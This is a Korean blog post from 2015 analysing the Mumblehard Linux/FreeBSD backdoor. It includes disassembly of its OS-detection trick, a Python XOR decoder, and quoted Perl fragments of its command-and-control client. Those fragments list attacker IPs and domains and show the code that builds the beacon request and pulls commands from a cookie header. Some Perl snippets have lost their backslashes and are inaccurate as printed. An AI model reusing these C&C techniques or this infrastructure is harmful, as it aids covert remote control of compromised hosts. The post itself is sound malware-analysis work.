 ```yaml
---
layout: post
title: Mumblehard 악성코드의 몇가지 특징
date: 2015-05-21 15:21:51.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags:
- freebsd
- Linux
- malware
- malware analysis
- mumblehard
author: "n0fate"
---
```

<p>mumblehard는 ESET에서 관리하는 블로그인 WeLiveSecurity를 통해 알려진 악성코드로 Linux와 FreeBSD를 둘 다 지원하는 멀티플랫폼 악성코드이다. <a href="http://www.welivesecurity.com/wp-content/uploads/2015/04/mumblehard.pdf" target="_blank">ESET에 있는 보고서</a>가 잘 정리되어 있으니 그 내용을 참조하기 바라며, 이 글에선 필자가 흥미롭게 본 부분만 정리한다. (사실 길게 쓰기 귀찮다..)<br />
<a href="#mumblehard-특징-정리" name="mumblehard-특징-정리"></a></p>
<p><strong>특징</strong></p>
<ul>
<li>멀티 플랫폼 지원(Linux/BSD)</li>
<li>인코딩 기법</li>
<li>펄 스크립트 C&amp;C</li>
</ul>
<h2 id="멀티-플랫폼-지원(linux/bsd)"><a href="#멀티-플랫폼-지원(linux/bsd)" name="멀티-플랫폼-지원(linux/bsd)"></a>멀티 플랫폼 지원(Linux/BSD)</h2>
<p>이 악성코드는 ELF 바이너리를 배포했음에도 여러 운영체제를 지원하도록 구성되어 있다. 일단 임포트하는 라이브러리가 하나도 없으며, 모든 코드가 직접적으로 시스템 콜을 호출하는 형태로 되어 있다. 리눅스 운영체제가 배포판 종류 및 버전에 따라 별도의 빌드가 필요한 것을 생각해봤을 때 다수의 리눅스 배포판에 효과적으로 배포가 가능하다고 볼 수 있다.<br />
이 외에도 재미있는 점은 운영체제 환경이 리눅스인지 BSD인지 확인하여 OS에 따라 다른 행동을 하도록 구성했다는 점이다. 예를 들어, 악성코드 시작 코드를 보자.</p>
<pre><code>LOAD:0804804C                                   public start
LOAD:0804804C                   start           proc near
LOAD:0804804C 89 25 0D 9A 04 08                 mov     MainStackPointer, esp
LOAD:08048052 B8 0D 00 00 00                    mov     eax, SYS_time   ; BSD : fchdir(stdin)
LOAD:08048052                                                           ; Linux : time(NULL)
LOAD:08048057 31 DB                             xor     ebx, ebx
LOAD:08048059 53                                push    ebx
LOAD:0804805A 50                                push    eax
LOAD:0804805B CD 80                             int     80h             ; syscall(SYS_time);
LOAD:0804805D 73 02                             jnb     short loc_8048061
LOAD:0804805F F7 D8                             neg     eax
LOAD:08048061
LOAD:08048061                   loc_8048061:                            ; CODE XREF: start+11j
LOAD:08048061 90                                nop
LOAD:08048062 90                                nop
LOAD:08048063 81 C4 08 00 00 00                 add     esp, 8
LOAD:08048069 3D 00 00 00 00                    cmp     eax, 0
LOAD:0804806E 7C 07                             jl      short isBSD
LOAD:08048070 B0 03                             mov     al, OS_LINUX
LOAD:08048072 E9 02 00 00 00                    jmp     loc_8048079
LOAD:08048077                   ; ---------------------------------------------------------------------------
LOAD:08048077
LOAD:08048077                   isBSD:                                  ; CODE XREF: start+22j
LOAD:08048077 B0 09                             mov     al, OS_BSD
LOAD:08048079
LOAD:08048079                   loc_8048079:                            ; CODE XREF: start+26j
LOAD:08048079 A2 11 9A 04 08                    mov     OSType, al
</code></pre>
<p>이 코드를 보면, 시스템 콜 13번(SYS_time)을 실행하는 것을 볼 수 있다. 이 콜은 운영체제에 따라 다른 기능을 수행하는데, Linux인 경우에는 시간 정보를 가져오는 time을 실행하고, BSD라면, fchdir 함수가 실행된다. 재미있는 점은 이 두 개의 호출이 다른 결과를 가져온다는 것이다. 예를 들어 위의 코드를 C로 구성해보면 다음과 같다.</p>
<pre><code>int ret = syscall(13, 0);
if ret &lt; 0:
    OSType = ISBSD;
else:
    OSType = ISLINUX;
</code></pre>
<p>BSD의 경우에 13번 fchdir은 두 번째 인자를 0을 받으면, fchdir(stdin)을 실행하고 그 결과를 준다. stdin을 입력으로 받으면 시스템 콜이 실패(-1)하고 디렉터리가 아니다(ENOTDIR, -20)이라는 에러 정보를 가진다. Linux라면, time(NULL)을 성공적으로 실행하여 현재 시간 정보를 int 형으로 돌려준다. 즉, 양수가 된다.<br />
이런 결과를 토대로 운영체제를 판단한 후, 임무 수행 시 각 운영체제마다 다른 시스템 콜 호출을 수행하도록 구성하였다.</p>
<h2 id="악성코드-디코더"><a href="#악성코드-디코더" name="악성코드-디코더"></a>악성코드 디코더</h2>
<p>Custom XOR을 사용했으며, 총 2개의 데이터를 복호화한다. 하나는 perl의 경로인 ‘/usr/bin/perl’이며, 다른 하나는 펄스크립트 코드이다. 복호화 코드는 다음과 같다.</p>
<pre><code>import struct

def xorl(nbytes, buffer):
    base = 4
    size = 16
    offset = 0
    result = ''
    while nbytes:
        if base == size:
            if size == 128:
                size = 0
            size += 16
            base = 1

        result += chr(int(buffer[offset]) ^ base)
        base += 1
        nbytes -= 1
        offset += 1
    return result

# /usr/bin/perl
buf = [0x2B, 0x70, 0x75, 0x75, 0x27, 0x6B, 0x63, 0x65, 0x23, 0x7D, 0x6B, 0x7D, 0x6D, 0x00]
print xorl(0x0D, buf)

# Perl script for command and control server
f = open('dump_perl_code', 'rb')
buf = f.read()

buflist = []
for i in buf:
    buflist.append(int(struct.unpack('=b', i)[0]))

f.close()

print xorl(0x1706, buflist)
</code></pre>
<p>디코딩 된 펄 코드는 C&amp;C 통신을 수행하며, HTTP 헤더에 있는 ‘Set-Cookie’ 필드에 PHPSESSIONID 뒤의 값을 이용하여 데이터 통신을 수행한다. 내부 정보는 Predefine된 구조체 형태로 되어 있으며, 인코딩되어 전송한다. 디코더는 펄 스크립트에 있으며, 코드는 다음과 같다.</p>
<pre><code>sub xorl {
    my ( $line, $code, $xor, $lim ) = ( shift, "", 1, 16 );
    foreach my $chr ( split( //, $line ) ) {
        if ( $xor == $lim ) { $lim = 0 if $lim == 256; $lim += 16; $xor = 1; }
        $code .= pack( "C", unpack( "C", $chr ) ^ $xor );
        $xor++;
    }
    return $code;
}
</code></pre>
<h2 id="펄-스크립트-c&amp;c"><a href="#펄-스크립트-c&amp;c" name="펄-스크립트-c&amp;c"></a>펄 스크립트 C&amp;C</h2>
<p>앞서 잠깐 언급한 것처럼 펄 스크립트는 C&amp;C와 통신하여 실제 명령을 수행하는 역할을 한다. 재밌는 점은 해당 스크립트에는 윈도 환경도 고려되어 있는 것 같다.</p>
<pre><code>if ( $^O eq "linux" )   { $ewblock = 11;    $eiprogr = 115; }
if ( $^O eq "freebsd" ) { $ewblock = 35;    $eiprogr = 36; }
if ( $^O eq "MSWin32" ) { $ewblock = 10035; $eiprogr = 10036; }
</code></pre>
<p>통신은 HTTP 패킷의 헤더에 정보를 은닉하여 수발신하도록 구성되어 있다. 코드 자체가 난독화되어 있진 않기 때문에 쉽게 분석할 수 있다. C&amp;C 접속에 사용된 URL/IP는 다음과 같다.</p>
<pre><code>my $url = [
    "184.106.208.157",     "194.54.81.163",
    "advseedpromoan.com",  "50.28.24.79",
    "67.221.183.105",      "seoratingonlyup.net",
    "advertise.com",       "195.242.70.4",
    "pratioupstudios.org", "behance.net"
];
</code></pre>
<p>HTTP Request 패킷은 기본적인 구조를 가지고 있다.</p>
<pre><code>    my $buffer  = join( "x0Dx0A",
        "GET $path HTTP/1.1",
        "Host: $host",
"User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:7.0.1) Gecko/$gecko Firefox/7.0.1",
"Accept: text/html,application/xhtml+xml,application/xml;q=0.8,*/*;q=0.9",
        "Accept-Language: en-us,en;q=0.5",
        "Accept-Encoding: gzip, deflate",
        "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7",
        "Connection: close",
        "x0Dx0A" );
</code></pre>
<p>할 일은 PHPSESSID 뒤에 붙은 인코딩된 문자열을 디코딩하여 수행한다.</p>
<pre><code>    if ( open( F, "&lt;", $header ) ) {
        flock F, 1;
        my ( $test, $task ) = ( 0, "" );
        while (&lt;F&gt;) {
            s/^s*([^s]?.*)$/$1/;
            s/^(.*[^s])s*$/$1/;
            next unless length $_;
            $test++ if $_ eq "HTTP/1.0 200 OK" || $_ eq "Connection: close";
            $task = $1 if /^Set-Cookie: PHPSESSID=([^;]+)/;    // 값 추출
        }
        close F;
        ( $link, $file, $id, $command, $timeout ) = &amp;decd($task)    // 디코딩
          if $test == 2 &amp;&amp; length $task;
    }
</code></pre>
<p><span style="font-size: 10px;"><em>Featured Image Source : https://www.flickr.com/photos/barmala/2561602478/in/photostream/</em></span></p>
